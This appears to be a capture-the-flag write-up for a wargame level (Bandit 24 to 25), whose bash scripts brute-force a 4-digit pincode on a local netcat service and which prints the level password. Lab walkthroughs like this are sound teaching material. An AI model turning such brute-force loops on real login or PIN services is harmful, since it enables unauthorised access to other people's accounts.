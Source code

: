 Level password: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

From testing:

```sh
echo -e "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G80\ngb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1" | nc localhost 30002

I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
```

It seems that the server that checks for the password can handle multiple inputs per 1 connection. So we could brute-force this using a bash script that sends all the password in 1 connection session and invert grep for the word "Wrong".

We could create a script for this:

```sh
#!/bin/bash

for i in {0..9999};
do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 ${i}";
done | nc localhost 30002 | grep -v "Wrong"
```

We iterate from *0* to *9999* using a for loop, then echo the password of the current level with the current iteration index. Then we pipe it into `netcat`. The invert grep `grep -v` allows us to filter for any output that doesn't contain the word *Wrong* in it, the word that indicates incorrect password. So we just grab output lines that are correct.

We could also use `seq` for this:

```sh
#!/bin/bash

for i in $(seq 0 9999);
do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 ${i}";
done | nc localhost 30002 | grep -v "Wrong"
```

Note: The below script should theoretically work:
```sh
#!/bin/bash

for i in {0..9999};
do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 ${i}" | nc localhost 30002 | grep -v "Wrong";
done
```

However, the problem lies in the server not handling the connection opening and closing quickly. It could also overwhelm the server and cause timeout. 